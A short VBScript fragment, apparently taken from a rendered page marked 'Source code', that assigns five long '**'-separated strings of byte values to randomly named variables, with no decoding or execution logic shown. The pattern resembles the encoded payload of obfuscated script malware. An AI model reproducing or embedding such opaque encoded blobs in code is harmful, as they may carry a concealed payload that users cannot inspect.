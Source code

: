 ```vbscript
lgbtjWKMbr = ("73**244**4**59**40**242**5**109**187**51**53**175**46**79**96**189**15**92**142**228**7**214**129**251**60**138**91**1**175**253**193**134**122**106**175**15**172**227**60**34**250**55**109**172**230**118**63**228**11**213**232**120**156**105**229**211**199**155**55**59**92**205**119**58**94**35**148**199**123**198**14**245**16**97**217**198**193**118**92**65**80**113**131**79**136**248**107**215**130**95**172**160**2**62**201**171**172**173**109**46**113**108**64**253**50**111**13**151**77**43**42**168**13**196**18**168**93**169**248**221**126**240**171**3**10**239**185**38**160**212**6**192**191**227**119**115**254**93**136**137**255**141**59**194**121**97**141**54**195**249**34**165**110**18**252**102**226**93**69**142**114**214**51**78**219**214**250**161**190**154**132**74**65**220**153**201**147**198**132**252**226**11**110**236**195**206**251**0**118**195**217**119**87**26**152**245**238**101**136**56**102**157**79**211**66**68**205**154**255**113**34**162**19**68**196**46**22**")

lgbt2uyJ9e = ("17**157**36**34**122**153**136**232**52**209**127**165**136**232**213**2**223**42**45**156**177**4**69**162**199**134**109**103**40**124**88**200**22**109**33**77**98**33**11**54**42**20**76**185**214**91**75**97**242**41**110**30**166**218**136**22**174**245**8**139**23**60**178**62**88**189**20**124**83**129**226**33**189**31**174**85**160**223**232**216**2**55**238**181**17**5**213**38**84**253**213**176**106**116**196**72**170**173**116**179**88**105**84**159**56**195**162**15**19**79**79**134**136**231**102**196**115**58**226**123**2**241**92**244**5**63**220**208**133**115**2**159**71**38**147**32**157**210**154**18**63**65**59**207**145**203**53**37**114**158**56**53**38**249**32**137**253**120**57**46**0**158**86**254**32**208**177**254**143**4**225**184**164**152**162**157**158**149**149**29**222**22**128**156**133**64**141**209**2**149**85**60**107**245**106**240**236**229**145**106**5**155**200**70**204**162**196**145**5**73**78**100**245**234**50**112**251**6**15**95**25**1")

lgbt9yb7p1 = ("35**172**181**115**215**201**245**148**147**211**149**234**8**89**230**175**14**121**34**177**189**168**205**200**247**184**235**187**105**247**68**25**226**252**120**183**127**254**102**45**127**52**76**64**52**19**136**50**190**6**68**28**201**216**84**8**141**41**16**182**156**68**200**55**210**37**32**165**168**83**252**56**128**137**7**5**87**4**223**40**248**102**193**27**4**111**20**220**41**120**145**224**11**4**47**17**188**84**240**37**130**175**16**188**66**240**42**193**61**156**123**197**63**236**247**216**110**29**56**251**199**71**143**167**41**182**93**116**118**70**59**115**218**205**172**133**174**17**56**3**114**249**133**18**129**137**45**65**62**97**83**204**198**5**32**69**111**192**125**101**25**242**35**43**58**59**23**183**72**137**28**43**25**221**233**188**33**18**229**124**186**124**205**141**118**102**113**7**43**87**195**254**229**172**6**39**219**242**7**250**124**245**148**212**116**236**182**127**43**56**24**55**222**79**109**192**146**112**187**238**48")

lgbtvN4jB1 = ("**92**247**105**164**119**128**17**157**17**221**226**228**167**211**133**227**3**182**205**56**85**123**182**247**223**31**10**218**82**111**31**45**45**247**221**183**34**214**126**45**189**63**149**222**127**223**138**251**11**246**253**156**234**214**198**135**161**91**94**208**102**125**144**238**133**255**192**196**4**173**15**30**235**50**40**163**163**99**115**48**5**195**177**174**6**189**46**253**119**59**29**248**122**211**72**77**150**212**52**241**166**164**55**109**91**254**29**77**163**222**180**31**123**53**169**233**108**248**200**30**201**163**47**21**26**172**15**206**38**86**63**145**70**70**171**105**255**198**75**185**161**83**201**216**194**149**41**136**43**63**237**208**26**13**148**123**93**45**162**7**38**61**251**105**126**7**63**24**56**95**126**95**231**239**16**56**158**103**32**98**166**9**218**131**192**35**23**237**112**98**147**160**119**151**26**39**191**255**231**36**190**59**74**187**138**226**124**20**113**205**231**87**160**43**33**79**228**141**")

lgbtEPaxGR = ("26**188**31**68**123**43**224**161**36**214**1**247**116**31**50**229**104**11**98**36**123**197**81**26**123**7**59**208**146**216**219**216**215**87**36**172**252**202**99**166**16**211**189**18**190**103**70**143**27**35**87**66**197**4**101**178**73**252**22**71**123**28**30**227**48**142**195**52**14**195**104**103**69**135**254**188**31**119**42**251**8**20**14**2**187**126**25**113**138**49**41**225**40**9**158**214**46**36**228**63**197**53**76**173**63**41**114**92**130**33**137**79**74**212**64**173**97**179**99**18**83**238**2**187**132**41**183**243**44**130**211**212**153**235**78**111**213**156**30**169**196**19**77**59**43**197**144**38**139**224**53**32**120**137**123**112**88**121**91**90**237**85**60**109**71**119**104**143**197**46**207**28**39**187**138**62**162**199**71**119**167**83**47**5**254**182**195**209**222**233**209**227**153**112**100**7**60**7**96**230**90**239**122**159**130**114**45**41**55**29**179**54**209**209**16**159**88**67**173**131**145**31**19")

```
